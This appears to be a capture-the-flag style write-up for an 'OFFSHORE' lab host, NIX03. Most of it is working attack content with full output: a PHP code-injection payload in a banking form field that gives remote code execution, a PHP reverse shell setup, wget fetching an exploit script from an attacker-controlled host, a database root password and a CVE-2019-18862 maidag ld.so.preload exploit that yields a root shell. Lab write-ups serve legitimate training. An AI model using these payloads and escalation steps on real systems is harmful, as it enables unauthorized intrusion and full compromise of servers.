



There is a login form at http://172.16.4.120/client/ - I think the login is admin from the bookmark we found on DC04.
Let's use Burpsuite to try a password spray from words we put together going through the lab.

Our login credentials are admin : h1dd3n_1n_pl@iN_$1ght
If we go to Add Transaction and fill out the form, catch this request in burpsuite, we can get RCE.
from=test&fromaddr=&to=test&toaddr=&amount=x') === true || system($_POST['cmd']) || is_numeric('x&comments=test&cmd=id

We can use this PHP rev shell https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (open it and change the IP)
Serve it up on your http server and download it to the target

$ cat /home/client_banking/flag.txt
OFFSHORE{d0nt_tru$t_y0ur_us3rs}
$ cat /var/www/flag.txt
If we run linpeas, it shows the mysql username and password are root / toor
client_banking@NIX03:/$ mysql -u root -p
mysql -u root -p
Enter password: toor
use flag;
select * from gameover;
exit
flag_value
OFFSHORE{3ncrypt10n_w0rk$_w0nd3rs}
Find all files with setuid permissions
find / -type f -perm /4000 -print 2>/dev/null
/usr/local/sbin/maidag
/usr/local/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/bin/ping
/bin/ping6
/bin/mount
/bin/umount
/bin/fusermount
/bin/su
Check the version of maidag
/usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
https://www.exploit-db.com/exploits/47703
To get root, https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-18862/exploit.ldpreload.sh
client_banking@NIX03:/home/client_banking$ wget 10.10.16.94:800/ldapreload.sh
wget 10.10.16.94:800/ldapreload.sh
--2023-05-03 13:32:11-- http://10.10.16.94:800/ldapreload.sh
Connecting to 10.10.16.94:800... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6774 (6.6K) [text/x-sh]
Saving to: 'ldapreload.sh'
0K ...... 100% 304K=0.02s
2023-05-03 13:32:11 (304 KB/s) - 'ldapreload.sh' saved [6774/6774]
client_banking@NIX03:/home/client_banking$ chmod +x ldapreload.sh
chmod +x ldapreload.sh
client_banking@NIX03:/home/client_banking$ ./ldapreload.sh
./ldapreload.sh
[+] /usr/local/sbin/maidag is set-uid
[*] Compiling...
[*] Writing stub to /tmp/stub ...
[*] Adding /tmp/libmaidag.so to /etc/ld.so.preload...
-rw------- 1 root client_banking 62 May 3 13:32 /etc/ld.so.preload
[*] Wait for your shell to be set-uid root: /var/tmp/sh
[*] Spamming TCP connections to 127.0.0.1:25 ...
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
220 NIX03 ESMTP Postfix (Ubuntu)
221 2.0.0 Bye
[+] Success:
-rwsrwxrwx 1 root root 8712 May 3 13:32 /var/tmp/sh
[*] Cleaning up ...
whoami
root
cat /root/flag.txt